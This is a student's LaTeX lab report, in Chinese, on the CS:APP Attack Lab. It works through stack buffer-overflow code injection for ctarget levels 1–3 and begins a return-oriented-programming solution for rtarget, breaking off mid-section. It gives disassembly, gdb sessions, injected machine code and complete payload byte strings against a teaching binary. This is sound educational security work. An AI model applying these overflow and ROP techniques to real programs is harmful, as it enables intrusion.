\documentclass[12pt, a4paper, oneside]{ctexart}
\usepackage{amsmath, amsthm, amssymb, graphicx}
\usepackage[bookmarks=true, colorlinks, citecolor=blue, linkcolor=black]{hyperref}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{inconsolata}
\usepackage{booktabs}
\usepackage{geometry}
\geometry{left=2cm, right=2cm} 
% 定义可能使用到的颜色
\definecolor{CPPLight}  {HTML} {686868}
\definecolor{CPPSteel}  {HTML} {888888}
\definecolor{CPPDark}   {HTML} {262626}
\definecolor{CPPBlue}   {HTML} {4172A3}
\definecolor{CPPGreen}  {HTML} {487818}
\definecolor{CPPBrown}  {HTML} {A07040}
\definecolor{CPPRed}    {HTML} {AD4D3A}
\definecolor{CPPViolet} {HTML} {7040A0}
\definecolor{CPPGray}  {HTML} {B8B8B8}
\lstset{basicstyle=\ttfamily,breaklines=true}
\lstset{
    columns=fixed,       
    numbers=left,                                        % 在左侧显示行号
    numbersep=5pt,
    frame=none,                                          % 不显示背景边框
    backgroundcolor=\color[RGB]{245,245,244},            % 设定背景颜色
    keywordstyle=\color[RGB]{40,40,255},                 % 设定关键字颜色
    numberstyle=\footnotesize\color{red},           % 设定行号格式
    commentstyle=\it\color[RGB]{0,96,96},                % 设置代码注释的格式
    stringstyle=\rmfamily\slshape\color[RGB]{128,0,0},   % 设置字符串格式
    showstringspaces=false,                              % 不显示字符串中的空格
    language=c,                                        % 设置语言
    xleftmargin=1em, %整体距左侧边线的距离为2em
    morekeywords={alignas,continute,friend,register,true,alignof,decltype,goto,
    reinterpret_cast,try,asm,defult,if,return,typedef,auto,delete,inline,short,
    typeid,bool,do,int,signed,typename,break,double,long,sizeof,union,case,
    dynamic_cast,mutable,static,unsigned,catch,else,namespace,static_assert,using,
    char,enum,new,static_cast,virtual,char16_t,char32_t,explict,noexcept,struct,
    void,export,nullptr,switch,volatile,class,extern,operator,template,wchar_t,
    const,false,private,this,while,constexpr,float,protected,thread_local,
    const_cast,for,public,throw,std},
}
% 导言区

\title{计算机系统基础 \\ Lab3 Attack Lab} % 标题
\author{姓名:傅文杰\\学号:22300240028} % 作者
\date{\today} % 日期

\begin{document}

\maketitle % 生成标题

\tableofcontents % 生成目录

\section{实验准备} % 一级标题

\subsection{Target Programs}
\begin{itemize}
    \item ctarget 和 rtarget 用 getbuf 函数来读取。注意到BUFFER\_SIZE是一个constant,
    我们需要找出合适的投喂string的方式。注意:我们输入的string不能含有0x0a,因为这是‘$\backslash$n’的ASCII码,Gets函数读入后会直接结束读取。
\begin{lstlisting}
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
\end{lstlisting}
    \item 可执行文件的命令参数: -h 打印帮助列表; -g 不发送给评分服务器; -i FILE 提供来自FILE的输入。
    如果我们直接在 terminal 中./ctarget 会报错 Running on an illegal host ,因为服务器没有使用CMU的内网。
    我们可以通过 -q 来解决这个问题。
    \item hex2raw的使用: 输入需要将十六进制数两个两个以空格或者换行隔开(以字节为单位)。
    例如:要创建单词 0xdeadbeef,应该将“ef be ad de”传递给 hex2raw(注意小端机器需要反转)。
    \item 产生机器代码:\\
    假设我们写了如下的机器代码
\begin{lstlisting}
# Example of hand-generated assembly code
pushq $0xabcdef # Push value onto stack
addq $17,%rax # Add 17 to %rax
movl %eax,%edx # Copy lower 32 bits to %edx
\end{lstlisting}
    接下来使用 gcc 编译器汇编,并用 objdump 反汇编。
\begin{lstlisting}
gcc -c example.s
objdump -d example.o > example.d
\end{lstlisting}
    得到了 example.d 文件,包含机器代码
\begin{lstlisting}
example.o: file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
0: 68 ef cd ab 00 pushq $0xabcdef
5: 48 83 c0 11 add $0x11,%rax
9: 89 c2 mov %eax,%edx
\end{lstlisting}
\end{itemize}
\subsection{实验目标}
\begin{figure}[htbp]
    % \centering
    
\includegraphics[scale=0.4]{image/1.1-1.png}
\end{figure}
\section{实验过程}
\subsection{ctarget.l1}
\begin{itemize}
    \item 任务:当 ctarget 的 getbuf 函数执行返回语句时,
    执行 touch1 而不是返回 test。touch1 和 test 的代码如下:
\begin{lstlisting}
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
\end{lstlisting}
\begin{lstlisting}
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
\end{lstlisting}
    \item 首先反汇编 ctarget。
\begin{lstlisting}
objdump -d ctarget > ctarget.s
\end{lstlisting}
    \item 找到 touch1 和 getbuf 函数所在的位置。
\begin{lstlisting}
00000000004017a8 <getbuf>:
4017a8:	48 83 ec 28          	sub    $0x28,%rsp
4017ac:	48 89 e7             	mov    %rsp,%rdi
4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
4017b9:	48 83 c4 28          	add    $0x28,%rsp
4017bd:	c3                   	retq   
4017be:	90                   	nop
4017bf:	90                   	nop

00000000004017c0 <touch1>:
4017c0:	48 83 ec 08          	sub    $0x8,%rsp
4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
4017cb:	00 00 00 
4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>  
\end{lstlisting}
    \item getbuf 函数给栈分配了40个字节的空间,然后调用 gets 函数读取输入。
    读完后执行 retq 指令时,从栈中弹出返回地址,然后跳转到这个地址。
    正常来说会跳转到 test 函数中继续执行 printf 操作。但是如果 gets 函数读到的输入
    恰好将应该要从栈中弹出的返回地址覆盖掉,变成 touch1 函数的地址,那么就会跳转到 touch1 函数。
    \item 因此前四十个字节可以任取,最后八个字节需要时 touch1 函数的地址。
    \item 答案不妨为(存入ctarget\_l1.txt):\\
    00 00 00 00 00 00 00 00 00 00\\
    00 00 00 00 00 00 00 00 00 00\\
    00 00 00 00 00 00 00 00 00 00\\
    00 00 00 00 00 00 00 00 00 00\\
    c0 17 40 00 00 00 00 00
    \item 执行命令 
\begin{lstlisting}
./hex2raw < ctarget_l1.txt > ctarget.l1
./ctarget -qi ctarget.l1    
\end{lstlisting}
    \item 成功跳转
\begin{lstlisting}
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
\end{lstlisting}
    \item 这道题的示意图如下(CSAPP P196 仅仅数值不同):
\begin{figure}[htbp]
    \centering
    
\includegraphics[scale=0.6]{image/2.1-1.png}
\end{figure}
\end{itemize}
\subsection{ctarget.l2}
\begin{itemize}
    \item 任务:getbuf 函数执行返回语句时跳转到 touch2 函数,并通过它的 cookie 验证。touch2 函数的代码如下:
\begin{lstlisting}
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
\end{lstlisting}
    \item 反汇编 touch2 函数。
\begin{lstlisting}
00000000004017ec <touch2>:
4017ec:	48 83 ec 08          	sub    $0x8,%rsp
4017f0:	89 fa                	mov    %edi,%edx
4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
4017f9:	00 00 00 
4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
401802:	75 20                	jne    401824 <touch2+0x38>
401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
401809:	bf 01 00 00 00       	mov    $0x1,%edi
40180e:	b8 00 00 00 00       	mov    $0x0,%eax
401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
401818:	bf 02 00 00 00       	mov    $0x2,%edi
40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
401822:	eb 1e                	jmp    401842 <touch2+0x56>
401824:	be 10 31 40 00       	mov    $0x403110,%esi
401829:	bf 01 00 00 00       	mov    $0x1,%edi
40182e:	b8 00 00 00 00       	mov    $0x0,%eax
401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
401838:	bf 02 00 00 00       	mov    $0x2,%edi
40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
401842:	bf 00 00 00 00       	mov    $0x0,%edi
401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>  
\end{lstlisting}
    \item 可以看到 touch2 函数以 rdi 为参数来验证 cookie。所以我们
    需要先将 rdi 置为 cookie 的值,然后将 touch2 函数的地址压栈。
    汇编代码为(写在example.s中):
\begin{lstlisting}
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq
\end{lstlisting}
    用以下命令将它转化为机器代码:
\begin{lstlisting}
gcc -c example.s
objdump -d example.o > example.s
\end{lstlisting}
    得到的机器代码:
\begin{lstlisting}
example.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
    0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
    7:	68 ec 17 40 00       	pushq  $0x4017ec
    c:	c3                   	retq       
\end{lstlisting}
    \item 但我不能将这个机器代码写在返回地址的位置,那个位置应该写
    这段机器代码的地址。如果我们打算将这段代码写在一开始输入的地方,
    就需要用 gdb 找到 getbuf 函数的栈顶。示例输入如下( xx 所在地方表示要找的地址):
\begin{lstlisting}
48 c7 c7 fa 97 b9 59 68 ec 17
40 c3 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
xx xx xx xx xx xx xx xx
\end{lstlisting}
    \item gdb 调试
\begin{lstlisting}
gdb ctarget
\end{lstlisting}
    在 test 函数处打上断点
\begin{lstlisting}
(gdb) b test
Breakpoint 1 at 0x401968: file visible.c, line 90.
\end{lstlisting}
    随便输入运行
\begin{lstlisting}
(gdb) r -q 01
\end{lstlisting}
    在 getbuf 函数分配栈帧之后、销毁栈帧之前打上断点
\begin{lstlisting}
(gdb) b *0x4017ac
Breakpoint 2 at 0x4017ac: file buf.c, line 14.
\end{lstlisting}
    按 c 继续执行
\begin{lstlisting}
(gdb) c
Continuing.

Breakpoint 2, getbuf () at buf.c:14
\end{lstlisting}
    查看寄存器信息,尤其是 rsp 的信息
\begin{lstlisting}
(gdb) i register
rax            0x0      0
rbx            0x55586000       1431855104
rcx            0x0      0
rdx            0x7ffff7dcf8c0   140737351841984
rsi            0xc      12
rdi            0x606260 6316640
rbp            0x55685fe8       0x55685fe8
rsp            0x5561dc78       0x5561dc78
r8             0x7ffff7feb540   140737354052928    
\end{lstlisting}
    rsp 的值为 0x5561dc78
    \item 因此答案如下(存入ctargetl2.txt):\\
    48 c7 c7 fa 97 b9 59 68 ec 17 \\
    40 c3 00 00 00 00 00 00 00 00 \\
    00 00 00 00 00 00 00 00 00 00 \\
    00 00 00 00 00 00 00 00 00 00 \\
    78 dc 61 55 00 00 00 00
    \item 用 hex2raw 转化一下作为输入,成功跳转
\begin{lstlisting}
./hex2raw < ctarget_l2.txt > ctarget.l2
./ctarget -qi ctarget.l2    
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
\end{lstlisting}
\end{itemize}
\subsection{ctarget.l3}
\begin{itemize}
    \item 任务:getbuf 函数执行返回语句时跳转到touch3函数,并传入字符串形式的 cookie 参数。
    hexmatch 函数和 touch3 函数的代码如下:
\begin{lstlisting}
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
\end{lstlisting}
    \item 反汇编 hexmatch 和 touch3
\begin{lstlisting}
000000000040184c <hexmatch>:
40184c:	41 54                	push   %r12
40184e:	55                   	push   %rbp
40184f:	53                   	push   %rbx
401850:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp
401854:	41 89 fc             	mov    %edi,%r12d
401857:	48 89 f5             	mov    %rsi,%rbp
40185a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
401861:	00 00 
401863:	48 89 44 24 78       	mov    %rax,0x78(%rsp)
401868:	31 c0                	xor    %eax,%eax
40186a:	e8 41 f5 ff ff       	callq  400db0 <random@plt>
40186f:	48 89 c1             	mov    %rax,%rcx
401872:	48 ba 0b d7 a3 70 3d 	movabs $0xa3d70a3d70a3d70b,%rdx
401879:	0a d7 a3 
40187c:	48 f7 ea             	imul   %rdx
40187f:	48 01 ca             	add    %rcx,%rdx
401882:	48 c1 fa 06          	sar    $0x6,%rdx
401886:	48 89 c8             	mov    %rcx,%rax
401889:	48 c1 f8 3f          	sar    $0x3f,%rax
40188d:	48 29 c2             	sub    %rax,%rdx
401890:	48 8d 04 92          	lea    (%rdx,%rdx,4),%rax
401894:	48 8d 04 80          	lea    (%rax,%rax,4),%rax
401898:	48 c1 e0 02          	shl    $0x2,%rax
40189c:	48 29 c1             	sub    %rax,%rcx
40189f:	48 8d 1c 0c          	lea    (%rsp,%rcx,1),%rbx
4018a3:	45 89 e0             	mov    %r12d,%r8d
4018a6:	b9 e2 30 40 00       	mov    $0x4030e2,%ecx
4018ab:	48 c7 c2 ff ff ff ff 	mov    $0xffffffffffffffff,%rdx
4018b2:	be 01 00 00 00       	mov    $0x1,%esi
4018b7:	48 89 df             	mov    %rbx,%rdi
4018ba:	b8 00 00 00 00       	mov    $0x0,%eax
4018bf:	e8 ac f5 ff ff       	callq  400e70 <__sprintf_chk@plt>
4018c4:	ba 09 00 00 00       	mov    $0x9,%edx
4018c9:	48 89 de             	mov    %rbx,%rsi
4018cc:	48 89 ef             	mov    %rbp,%rdi
4018cf:	e8 cc f3 ff ff       	callq  400ca0 <strncmp@plt>
4018d4:	85 c0                	test   %eax,%eax
4018d6:	0f 94 c0             	sete   %al
4018d9:	0f b6 c0             	movzbl %al,%eax
4018dc:	48 8b 74 24 78       	mov    0x78(%rsp),%rsi
4018e1:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
4018e8:	00 00 
4018ea:	74 05                	je     4018f1 <hexmatch+0xa5>
4018ec:	e8 ef f3 ff ff       	callq  400ce0 <__stack_chk_fail@plt>
4018f1:	48 83 ec 80          	sub    $0xffffffffffffff80,%rsp
4018f5:	5b                   	pop    %rbx
4018f6:	5d                   	pop    %rbp
4018f7:	41 5c                	pop    %r12
4018f9:	c3                   	retq   

00000000004018fa <touch3>:
4018fa:	53                   	push   %rbx
4018fb:	48 89 fb             	mov    %rdi,%rbx
4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
401905:	00 00 00 
401908:	48 89 fe             	mov    %rdi,%rsi
40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
401916:	85 c0                	test   %eax,%eax
401918:	74 23                	je     40193d <touch3+0x43>
40191a:	48 89 da             	mov    %rbx,%rdx
40191d:	be 38 31 40 00       	mov    $0x403138,%esi
401922:	bf 01 00 00 00       	mov    $0x1,%edi
401927:	b8 00 00 00 00       	mov    $0x0,%eax
40192c:	e8 bf f4 ff ff       	callq  400df0 <__printf_chk@plt>
401931:	bf 03 00 00 00       	mov    $0x3,%edi
401936:	e8 52 03 00 00       	callq  401c8d <validate>
40193b:	eb 21                	jmp    40195e <touch3+0x64>
40193d:	48 89 da             	mov    %rbx,%rdx
401940:	be 60 31 40 00       	mov    $0x403160,%esi
401945:	bf 01 00 00 00       	mov    $0x1,%edi
40194a:	b8 00 00 00 00       	mov    $0x0,%eax
40194f:	e8 9c f4 ff ff       	callq  400df0 <__printf_chk@plt>
401954:	bf 03 00 00 00       	mov    $0x3,%edi
401959:	e8 f1 03 00 00       	callq  401d4f <fail>
40195e:	bf 00 00 00 00       	mov    $0x0,%edi
401963:	e8 d8 f4 ff ff       	callq  400e40 <exit@plt>  
\end{lstlisting}
    \item 可以看到 hexmatch 函数先将栈顶加上 0xffffffffffffff80,即减去
    0x80,这显然会覆盖掉 getbuf 函数运行时加入栈中的信息,如果像上一题那样
    在输入的一开始就注入攻击代码显然会被覆盖掉,我们可以在那里将字符串指针
    赋给 rdi,但是不能在那里存储字符串信息。我们应该在栈生长的反方向存储信息,
    即利用字符串溢出,存储在 test 函数中。示例答案如下(yy 代表 cookie 字符串的ASCII序列,
    xx 代表注入攻击代码的机器码):
\begin{lstlisting}
xx xx xx xx xx xx xx xx xx xx
xx xx xx xx xx xx xx xx xx xx
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 yy yy
yy yy yy yy yy yy
\end{lstlisting}
    \item cookie 的ASCII码为:35 39 62 39 39 37 66 61 00 00 00 00 (注意字符串需要以0结尾);
    并且容易看出字符串首地址为 getbuf 函数栈顶 + 0x30(rsp + 0x30)。
    \item 将 rdi 的值置为 cookie 字符串的地址,并跳转到 touch3 函数,汇编代码为(写在example.s中):
\begin{lstlisting}
movq $0x5561dca8, %rdi
pushq $0x4018fa
retq
\end{lstlisting}
    用以下命令将它转化为机器代码:
\begin{lstlisting}
gcc -c example.s
objdump -d example.o > example.s
\end{lstlisting}
    得到的机器代码:
\begin{lstlisting}
example.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
    0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
    7:	68 fa 18 40 00       	pushq  $0x4018fa
    c:	c3                   	retq 
\end{lstlisting}
    \item 所以答案为:
\begin{lstlisting}
48 c7 c7 a8 dc 61 55 68 fa 18
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 35 39
62 39 39 37 66 61 00 00 00 00
\end{lstlisting}
    \item 用 hex2raw 转化一下作为输入,成功跳转
\begin{lstlisting}
./hex2raw < ctarget_l3.txt > ctarget.l3
./ctarget -qi ctarget.l3    
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00  
\end{lstlisting}
\end{itemize}
\subsection{rtarget.l4}
\begin{itemize}
    \item rtarget 使用了两种方法来避免上面的栈溢出攻击
    \begin{enumerate}
        \item 栈随机化:不同的运行堆栈的位置不同
        \item 将保存堆栈的内存部分被标记为不可执行,注入攻击代码后会报segmentation fault
    \end{enumerate}
    \item ROP 技术示例:\\
    这是一段C语言代码
\begin{lstlisting}
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
\end{lstlisting}
    它的机器代码为:
\begin{lstlisting}
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
\end{lstlisting}
    其中 48 89 c7 编码了movq \%rax, \%rdi,加上最后 c3 编码的 retq
    我们便可以通过开始地址为 0x400f18 的这段代码将 rax 的值赋给 rdi,并返回
    \item rtarget 中有这样的 gadget farm 可用于攻击
    \item 下一页中的图片是汇编指令的编码
\begin{figure}[htbp]
    
\includegraphics[scale=0.7]{image/2.4-1.jpeg}
\end{figure}
    \item 任务:在 rtarget 重新达到 ctarget.l2 的目的
    \item 将 rtarget 反汇编
\begin{lstlisting}
objdump -d rtarget > rtarget.s
\end{lstlisting}
    \item 查看 getbuf 和 touch2 的汇编代码
\begin{lstlisting}
00000000004017a8 <getbuf>:
4017a8:	48 83 ec 28          	sub    $0x28,%rsp
4017ac:	48 89 e7             	mov    %rsp,%rdi
4017af:	e8 ac 03 00 00       	callq  401b60 <Gets>
4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
4017b9:	48 83 c4 28          	add    $0x28,%rsp
4017bd:	c3                   	retq   
4017be:	90                   	nop
4017bf:	90                   	nop
\end{lstlisting}
\begin{lstlisting}
00000000004017ec <touch2>:
4017ec:	48 83 ec 08          	sub    $0x8,%rsp
4017f0:	89 fa                	mov    %edi,%edx
4017f2:	c7 05 e0 3c 20 00 02 	movl   $0x2,0x203ce0(%rip)        # 6054dc <vlevel>
4017f9:	00 00 00 
4017fc:	3b 3d e2 3c 20 00    	cmp    0x203ce2(%rip),%edi        # 6054e4 <cookie>
401802:	75 20                	jne    401824 <touch2+0x38>
401804:	be 08 32 40 00       	mov    $0x403208,%esi
401809:	bf 01 00 00 00       	mov    $0x1,%edi
40180e:	b8 00 00 00 00       	mov    $0x0,%eax
401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
401818:	bf 02 00 00 00       	mov    $0x2,%edi
40181d:	e8 8b 05 00 00       	callq  401dad <validate>
401822:	eb 1e                	jmp    401842 <touch2+0x56>
401824:	be 30 32 40 00       	mov    $0x403230,%esi
401829:	bf 01 00 00 00       	mov    $0x1,%edi
40182e:	b8 00 00 00 00       	mov    $0x0,%eax
401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
401838:	bf 02 00 00 00       	mov    $0x2,%edi
40183d:	e8 2d 06 00 00       	callq  401e6f <fail>
401842:	bf 00 00 00 00       	mov    $0x0,%edi
401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>  
\end{lstlisting}
    \item 发现 BUFFER\_SIZE 的值仍然是40,并且没有金丝雀值,栈溢出仍然可以覆盖原来的返回地址,
    但是无法执行。
    \item 我们需要通过 gadget 来执行 ctarget.l2 中的汇编代码:
\begin{lstlisting}
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret    
\end{lstlisting}
    \item 可以分为两部分,利用栈溢出把 0x59b997fa 和 0x4017ec 放到栈中;利用
    gadget 先 popq 再 movq 把栈顶弹出赋值给 rip。然后 ret 跳转到 touch2 函数的地址那里。
    \item 仔细对照 P17 的表和 rtarget 中 start\_farm 到 end\_farm 之间的汇编,注意:
    popq xxx 是 5x;movq xxx xxx 是 48 xx xx;rdi 是 x7 或者 xf。我们可以发现:
\begin{lstlisting}
